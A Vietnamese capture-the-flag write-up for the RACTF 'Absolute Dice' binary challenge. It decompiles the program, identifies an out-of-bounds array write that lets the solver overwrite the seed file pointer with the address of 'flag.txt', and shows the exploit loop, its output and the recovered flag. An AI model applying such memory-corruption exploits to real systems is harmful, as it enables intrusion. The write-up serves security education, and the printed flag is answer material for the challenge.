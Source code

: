 # Phân tích file

```c
absoluteDice: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=47bcb6758e089effa6f964f6d1767e46b95e6abe, not stripped
```

- Checksec:

    ```c
    Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    ```

## Reverse file.

```c
{
  const char **v4; // [esp-Ch] [ebp-34h]
  const char **v5; // [esp-8h] [ebp-30h]
  char v6[21]; // [esp+Fh] [ebp-19h] BYREF

  *(_DWORD *)&v6[13] = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  strcpy(v6, "/dev/urandom");
  return main((int)v6, v4, v5);
}
```

```c
{
  int result; // eax
  char i; // [esp+1Bh] [ebp-ADh]
  FILE *stream; // [esp+1Ch] [ebp-ACh]
  FILE *v6; // [esp+20h] [ebp-A8h]
  int v7[40]; // [esp+24h] [ebp-A4h] BYREF

  v7[38] = __readgsdword(0x14u);
  memset(v7, 0, 0x98u);
  v7[37] = argc;
  puts(
    "Welcome to the final boss fight of my new indie game, Solid Rook. Your goal - predict the same number as the final b"
    "oss, Absolute Dice, 30 times in a row; she'll pick between 0 and 20.\n");
  while ( 1 )
  {
    result = v7[0];
    if ( v7[0] > 99 )
      break;
    ++v7[0];
    stream = fopen((const char *)v7[37], "r");
    fread(&v7[4], 4u, 1u, stream);
    srand(v7[4]);
    printf("Enter your guess> ");
    __isoc99_scanf("%d", &v7[3]);
    v7[1] = rand() % 21;
    v7[v7[0] % 33 + 5] = v7[3];
    if ( v7[3] == v7[1] )
    {
      printf("Absolute Dice shrieks as your needle strikes a critical hit. (%d/50)\n", ++v7[2]);
      if ( v7[2] > 30 )
      {
        printf("Absolute Dice shrieks as you take her down with a final hit.");
        v6 = fopen("flag.txt", "r");
        for ( i = fgetc(v6); i != -1; i = fgetc(v6) )
          putchar(i);
        fclose(v6);
      }
    }
    else
    {
      v7[2] = 0;
      printf("Absolute Dice scores a hit on you! (She had %d, you said %d)\n", v7[1], v7[3]);
    }
  }
  return result;
}
```

- Ta thấy ở đây chương trình sẽ tạo 1 mảng int v7[40] trong đó:
    - v7[0] sẽ lưu số lần đoán của chúng ta và nó sẽ break khi đoán quá 99 lần.
    - v7[1] là số random trong khoảng 0 đến 21.
    - v7[2] là số lần đoán đúng liên tiếp của ta, nếu ta đoán đúng 31 lần liên tiếp thì sẽ đọc flag.
    - v7[3] là input của ta.
    - v7[4] là seed của srand() và nó là 4 byte của được đọc từ file v7[37] /dev/urandom nên nó sẽ khác nhau sau mỗi lần chạy và sinh ra số ngẫu nhiên.
    - v7[37] chứa tên file để đọc lấy 4 byte làm seed cho srand().

## Exploit.

- Đọc qua chương trình mình có thể thấy bug nằm ở đoạn code này:

    ```c
      v7[v7[0] % 33 + 5] = v7[3];
    ```

    - Ta có thể control được từ v7[6] đến v7[37] theo số lần nhập v7[0].
    - Mà v7[37] là file để v7[4] đọc 4 byte làm seed, do v7[37] ban đầu là /dev/urandom nên v7[4] sẽ khác nhau nên sinh ra v7[1] khác nhau, nhưng nếu ta thay đổi v7[37] thành 1 file cố định thì sao?
        - Thì v7[4] sẽ luôn  lấy 4 byte giống nhau mỗi lần chạy do đó với seed giống nhau thì những lần random sau đó sẽ sinh ra 1 số giống nhau ⇒ vậy là ta có thể đoán đúng 31 lần rồi :v
    - Vậy ta có thể control được file đó ở lần nhập thứ 32 và sẽ bằng với input của ta. Mình thấy trong chương trình còn có 1 file nữa đó là file flag.txt mình sẽ dùng file này thay cho /dev/urandom.

        ```c
        0x8048bb9:      "flag.txt"
        pwndbg> p/d 0x8048bb9
        $3 = 134515641
        ```

    ```python
    for i in range(31):
    	payload = str(i)
    	p.sendline(payload)	
    p.sendline("134515641")
    ```

    - Mình đã thành công ghi đè file thành flag.txt do đó seed sẽ luôn là 4 byte đầu tiên của flag nên sau đó sẽ random ra những số giống nhau .

    ```python
    Absolute Dice scores a hit on you! (She had 15, you said 134515641)
    Enter your guess> $ 1
    Absolute Dice scores a hit on you! (She had 11, you said 1)
    Enter your guess> $ 1
    Absolute Dice scores a hit on you! (She had 11, you said 1)
    Enter your guess> $ 1
    Absolute Dice scores a hit on you! (She had 11, you said 1)
    Enter your guess> $ 1
    Absolute Dice scores a hit on you! (She had 11, you said 1)
    Enter your guess> $ 1
    Absolute Dice scores a hit on you! (She had 11, you said 1)
    Enter your guess> $ 1
    Absolute Dice scores a hit on you! (She had 11, you said 1)
    Enter your guess> $ 1
    Absolute Dice scores a hit on you! (She had 11, you said 1)
    Enter your guess> $ 1
    Absolute Dice scores a hit on you! (She had 11, you said 1)
    Enter your guess> $ 1
    Absolute Dice scores a hit on you! (She had 11, you said 1)
    Enter your guess> $ 1
    Absolute Dice scores a hit on you! (She had 11, you said 1)
    Enter your guess> $
    ```

    - Ta chỉ cần đoán 31 lần 11 là sẽ được flag.

    ```python
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (1/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (2/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (3/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (4/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (5/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (6/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (7/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (8/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (9/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (10/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (11/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (12/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (13/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (14/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (15/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (16/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (17/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (18/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (19/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (20/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (21/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (22/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (23/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (24/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (25/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (26/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (27/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (28/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (29/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (30/50)
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (31/50)
    Absolute Dice shrieks as you take her down with a final hit.ractf{Abs0lute_C0pe--Ju5t_T00_g00d_4t_th1S_g4me!}
    Enter your guess> Absolute Dice shrieks as your needle strikes a critical hit. (32/50)
    Absolute Dice shrieks as you take her down with a final hit.ractf{Abs0lute_C0pe--Ju5t_T00_g00d_4t_th1S_g4me!}
    ```

    - Tada :v thế là có được flag.
